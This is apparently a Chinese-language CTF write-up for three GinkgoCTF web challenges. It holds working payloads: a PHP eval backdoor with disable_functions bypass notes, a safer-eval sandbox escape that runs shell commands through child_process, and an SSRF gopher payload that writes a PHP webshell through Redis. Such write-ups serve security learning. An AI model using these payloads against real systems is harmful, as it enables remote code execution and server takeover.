


# GinkgoCTF

#### CheckIN

```php
<title>Check_In</title>
<?php
highlight_file(__FILE__);
class ClassName
{
  public $code = null;
  public $decode = null;
  function __construct()
  {
    $this->code = @$this->x()['Ginkgo'];
    $this->decode = @base64_decode( $this->code );
    @Eval($this->decode);
  }
 
  public function x()
  {
    return $_REQUEST;
  }
}
 
new ClassName();
```

- 第一种，攻击后端组件，寻找存在命令注入的、web 应用常用的后端组件，如，ImageMagick 的魔图漏洞、bash 的破壳漏洞；
- 第二种，寻找未禁用的漏网函数，常见的执行命令的函数有 system()、exec()、shell_exec()、passthru()，偏僻的 popen()、proc_open()、pcntl_exec()，逐一尝试，或许有漏网之鱼；
- 第三种，mod_cgi 模式，尝试修改 `.htaccess`，调整请求访问路由，绕过 php.ini 中的任何限制；
- 第四种，利用环境变量 LD_PRELOAD 劫持系统函数，让外部程序加载恶意 *.so，达到执行系统命令的效果。

绕过disable_functions:https://www.cnblogs.com/hookjoy/p/10167315.html

include('/tmp/exp.php');

#### EzNode

```js
const express = require('express');
const bodyParser = require('body-parser');
 
const saferEval = require('safer-eval'); // 2019.7/WORKER1 找到一个很棒的库
 
const fs = require('fs');
 
const app = express();
 
 
app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());
 
// 2020.1/WORKER2 老板说为了后期方便优化
app.use((req, res, next) => {
  if (req.path === '/eval') {//如果请求路径是/eval，就执行
    let delay = 60 * 1000;//定义一个变量delay
    console.log(delay);
    if (Number.isInteger(parseInt(req.query.delay))) {//如果请求参数delay是整数，就把传入的和之前定义取最大值复制给delay
      delay = Math.max(delay, parseInt(req.query.delay));
    }
    const t = setTimeout(() => next(), delay);//设置超时，如果超时就进入下一个路由
    // 2020.1/WORKER3 老板说让我优化一下速度，我就直接这样写了，其他人写了啥关我p事
    setTimeout(() => {
      clearTimeout(t);
      console.log('timeout');
      try {
        res.send('Timeout!');
      } catch (e) {
 
      }
    }, 1000);//超时一秒就就执行timeout
  } else {
    next();
  }
});
 
app.post('/eval', function (req, res) {
  let response = '';
  if (req.body.e) {
    try {
      response = saferEval(req.body.e);//可执行恶意代码
    } catch (e) {
      response = 'Wrong Wrong Wrong!!!!';
    }
  }
  res.send(String(response));
});
 
// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});
 
// 2019.12/WORKER3 为了方便我自己查看版本，加上这个接口
app.get('/version', function (req, res) {
  res.set('Content-Type', 'text/json;charset=utf-8');
  res.send(fs.readFileSync('./package.json'));
});
 
app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  res.send(fs.readFileSync('./index.html'))
})
 
app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

settimeout函数的漏洞：



``Nodejs``沙箱逃逸，原型链污染:https://xz.aliyun.com/t/7842

poc:

```js
const saferEval = require("./src/index");

const theFunction = function () {
    const process = clearImmediate.constructor("return process;")();
    return process.mainModule.require("child_process").execSync("whoami").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```


?delay=2147483648

e=clearImmediate.constructor("return process;")().mainModule.require("child_process").execSync("cat /flag").toString()

#### EzWeb:

file:/var/www/html/index.php



```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    echo curl_exec($ch);
    curl_close($ch);
}

if(isset($_GET['submit'])){
    $url = $_GET['url'];
//echo $url."\n";
    if(preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match))
{
//var_dump($match);
    die('别这样');
}
curl($url);
}
if(isset($_GET['secret'])){
system('ifconfig');
}
?>
```

利用burp爆破c段

gopher://173.169.113.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

173.169.113.11/shell.php?cmd=cat%20/flag

redis:https://xz.aliyun.com/t/1800

```redis
redis-cli -h 127.0.0.1 flushall
redis-cli -h 127.0.0.1 config set dir /var/www
redis-cli -h 127.0.0.1 config set dbfilename shell.php
redis-cli -h 127.0.0.1 set webshell "<?php phpinfo();?>"
redis-cli -h 127.0.0.1 save
```

